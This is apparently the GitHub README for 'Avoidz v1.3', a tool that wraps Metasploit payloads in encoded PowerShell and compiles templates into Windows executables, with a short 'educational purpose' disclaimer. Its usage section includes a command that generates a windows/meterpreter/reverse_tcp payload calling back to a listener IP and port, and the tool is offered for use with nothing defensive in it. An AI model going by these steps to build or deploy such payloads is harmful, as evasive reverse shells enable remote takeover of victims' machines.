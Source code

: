 ## Avoidz v 1.3 
    Author: Mascerano Bachir [ dev-labs ]

## Legal Disclamer:
    The author does not hold any responsibility for the bad use of this tool,
    remember this is only for educational purpose.

## Description:
    This tool Generate encoded powershell with metasploit payloads,convert C, C#, py, go Templates to EXE's 
 
## Screenshot:
![pic1](http://i.imgur.com/sTeiZyE.png)

![pic2](http://i.imgur.com/I0lIBDl.png)

<br /><br />

## Dependencies :
    1 - metasploit-framework
	2 - xterm
	3 - MinGW32
	4 - Monodevelop
	5 - Wine
	6 - Python.exe v 2.7
	7 - Golang

## Download/Config/Usage:
    1º - Download the tool from github
         git clone https://github.com/M4sc3r4n0/avoidz.git

    2º - Set setup script execution permission
         cd avoidz
         chmod +x setup.sh

    3°- Run setup script
         ./setup.sh == to check dependencies

    4°- Run avoidz tool == example
     ./avoidz.rb == help command
	 ./avoidz.rb -h 192.168.1.3 -p 666 -m windows/meterpreter/reverse_tcp -f c1 == generate

## video tutorial: 
Avoidz v 1.0 old method : https://www.youtube.com/watch?v=ZilOByKkrVk
